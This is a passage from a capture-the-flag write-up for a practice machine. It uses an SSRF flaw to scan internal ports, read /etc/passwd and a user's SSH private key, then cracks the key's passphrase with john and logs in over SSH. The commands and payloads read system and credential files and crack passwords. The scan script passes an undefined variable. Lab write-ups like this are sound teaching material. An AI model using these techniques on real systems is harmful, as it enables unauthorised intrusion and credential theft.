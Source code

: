 ```python
def send_post_request(url, payload):  
    headers = read_headers_from_file('headers.txt')  
    response = requests.post(url, data=payload, headers=headers)  
    content_length = response.headers.get('Content-Length')  
    if content_length != '13':  # 13 was the lengh of "dead" response 
        print(f"POST request to {url} with payload {payload} returned status code: {response.status_code}, content length: {content_length}")  
  
for port in range(1, 65536):  
    url = f"http://localhost:{port}"  
    payload = f"url=http%3A%2F%2Flocalhost%3A{port}"  
    send_post_request(base_url, payload)
```

Now we know that port 1337 is open let's see, we can try submitting this URL to get the passwd file 
```
http://localhost:1337/etc/passwd
```

Now we know there is an user called "saad"; from before we remember that the SSH port was open, let's see if we can grab this user ssh key and use it to connect on his behalf.
```
http://localhost:1337/home/saad/.ssh/id_rsa
```

We can see that file cool, now we make a copy of it on our machine
```bash
nano saad-id_rsa
```

We need to change the key file permissions before using it:
```bash
chmod 600 saad-id_rsa 
```

Now we can login via SSH
```bash
ssh -i saad-id_rsa saad@creative.thm 
```

Unfortunately the key is protected with a password, let's find it with John's help
```bash
ssh2john saad-id_rsa > saad-id_rsa2
```

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt saad-id_rsa2
```

And in less than a minute we get it: sweetness  
Now we can run the SSH command again and we are logged in.

Here we can view the directory content with `ls` and open the user.txt file containing the first flag
```bash
cat user.txt
```
--> REDACTED
